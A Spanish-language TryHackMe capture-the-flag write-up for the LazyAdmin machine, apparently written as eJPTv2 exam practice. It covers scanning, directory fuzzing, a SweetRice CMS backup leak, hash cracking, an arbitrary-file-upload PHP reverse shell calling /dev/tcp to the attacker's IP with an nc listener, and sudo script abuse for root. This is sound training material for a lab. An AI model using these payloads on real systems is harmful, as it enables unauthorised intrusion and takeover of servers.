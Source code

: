 ```yaml
---
title: LazyAdmin
date: 2024-09-22
categories: [WRITEUPS, PREPARING EJPTv2]
tags: []  # TAG names should always be lowercase
image: /assets/images/ejptv2/ejptV2.png
---
```


---

![picture](/assets/images/ejptv2/lazy1.png)

---

En la máquina **LazyAdmin** de **TryHackMe**, gracias a una versión anticuada de un gestor de contenido, obtengo el archivo de *Backup* de una *BBDD*, en la que encuentro credenciales para acceder al gestor, una vez dentro, gracias a un **Arbitrary File Upload**, obtengo acceso al servidor, y escalo privilegios gracias a los permisos de **Sudo** sobre un script.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Primero realizaré un *PING* para probar si tengo conectividad con la máquina.

```bash
ping -c 1 10.10.192.27
```

Tengo conectividad, y además compruebo que estoy ante una máquina **Linux** gracias al *TTL*.

![picture](/assets/images/ejptv2/lazy2.png)

A continuación, realizaré un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.192.27 -n -Pn
```

![picture](/assets/images/ejptv2/lazy3.png){: w="600" h="300" }

Voy a comprobar el contenido corriendo por el puerto **80 - HTTP**.

Encuentro una página por defecto de **Apache2**.

![picture](/assets/images/ejptv2/lazy4.png)

Al no encontrar nada interesante en el código fuente de la página, voy a realizar **Fuzzing** para intentar encontrar mediante fuerza bruta rutas o archivos que no pueda ver.

(*redirijo el **Stderr** al **/dev/null** porque me dan muchos errores*)

```bash
gobuster dir -u http://10.10.192.27/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403 -x .txt,.php,.md -t 200 2>/dev/null
```

Encuentro una ruta "**/content**".

![picture](/assets/images/ejptv2/lazy5.png)

Dentro de la ruta, encuentro el gestor **CMS** corriendo por el servicio.

![picture](/assets/images/ejptv2/lazy6.png)

Voy a volver a realizar **Fuzzing** sobre esta ruta.

```bash
gobuster dir -u http://10.10.192.27/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403 -x .txt,.php,.md -t 200 2>/dev/null
```

Encuentro los siguientes archivos, y rutas.

![picture](/assets/images/ejptv2/lazy7.png)

En el archivo de "**changelog.txt**", encuentro la versión del gestor de contenido (*CMS*) corriendo, **SweetRice - 1.5.0**. 

![picture](/assets/images/ejptv2/lazy8.png)

En la ruta "**/as**", el panel de *Login* del gestor de contenidos.

![picture](/assets/images/ejptv2/lazy9.png)

---

## **Explotación**

Buscando por internet, encuentro en la siguiente [**Web**](https://www.exploit-db.com/exploits/40718), que para las versiones "**<=1.5.1**", podemos descargarnos el archivo de *backup* de la base de datos **Mysql**.

![picture](/assets/images/ejptv2/lazy10.png)

Voy a la ruta, y lo descargo.

![picture](/assets/images/ejptv2/lazy11.png){: w="600" h="300" }

Mirando el archivo, encuentro unas credenciales.

![picture](/assets/images/ejptv2/lazy12.png)

La contraseña parece ser un **Hash**, me voy a la Web de [Crackstation](https://crackstation.net/) para intentar crackearlo, y obtengo la contraseña en texto claro.

![picture](/assets/images/ejptv2/lazy13.png)

Intentando entrar en el panel de *login* encontrado en la ruta "**/as**", obtengo resultado, y estoy dentro del gestor **CMS** como usuario administrador.

![picture](/assets/images/ejptv2/lazy14.png)

Volviendo a buscar en Internet, encuentro una vulnerabilidad **Arbitrary File Upload** para este gestor, podemos subir un archivo **ZIP** con código **PHP** en la pestaña de "*Media Center*, y vamos a poder ejecutarlo.

[**Enlace a la vulnerabilidad**](https://www.exploit-db.com/exploits/40716).

Creamos un archivo **PHP**, con el código necesario para que nos devuelva una **Reverse Shell**.

- Código

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra Ip'/4444 0>&1'");
?>
```

Y el archivo lo comprimimos.

![picture](/assets/images/ejptv2/lazy15.png)

A continuación, subimos el archivo comprimido, y marcamos la opción para que nos extraiga el archivo.

![picture](/assets/images/ejptv2/lazy16.png)

Lo subimos, y nos va a aparecer con otro nombre.

![picture](/assets/images/ejptv2/lazy17.png)

Nos vamos a la ruta donde se encuentra el archivo subido, y vemos que lo tenemos ahí.

![picture](/assets/images/ejptv2/lazy18.png){: w="600" h="300" }

Antes de ejecutarlo, tendremos que crear un **Listener** en nuestra máquina local para poder recibir la **Shell** interactiva.

- Listener

```bash
nc -lnvp 4444
```

Y una vez estemos escuchando por el puerto indicado en el archivo subido, clicamos en el archivo y obtendremos una **Shell** en nuestra máquina local dentro del servidor.

![picture](/assets/images/ejptv2/lazy19.png)

A continuación, realizo un tratamiento de la **TTY** para mejorar la interacción con la terminal.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

Encuentro un directorio en "**/home**" llamado "**itguy**", en el cual tenemos permisos de lectura, escritura y ejecución, y dentro del directorio encuentro la primera **flag** de usuario.

![picture](/assets/images/ejptv2/lazy20.png)

En el archivo "**mysql_login.txt**", encuentro unas credenciales de la base de datos **Mysql**, pero dentro de la *BBDD*, no encuentro nada interesante.

---

## **Escalada de privilegios**

Mirando los permisos de **SUDO** del usuario **www-data**, veo que no ncesita usar contraseña para ejecutar mediante **PERL** el script "**backup.pl**".

![picture](/assets/images/ejptv2/lazy21.png)

Viendo el contenido del script, veo que ejecuta otro script, ubicado en "**/etc/copy.sh**".

![picture](/assets/images/ejptv2/lazy22.png)


Y viendo el contenido del script "**copy.sh**", veo que ejecuta una **Reverse Shell**.

![picture](/assets/images/ejptv2/lazy23.png)

Viendo los permisos del script, veo que puedo modificarlo, así que en vez de ejecutar la **Reverse Shell**, sobrescribiré "**/bin/bash**" para que ejecute una bash como **root**.

![picture](/assets/images/ejptv2/lazy24.png)


Y a continuación, ejecuto el script como **SUDO**, obtengo una *bash* como el usuario **root**, y en su directorio personal encuentro la **flag** de **root**.

![picture](/assets/images/ejptv2/lazy25.png)

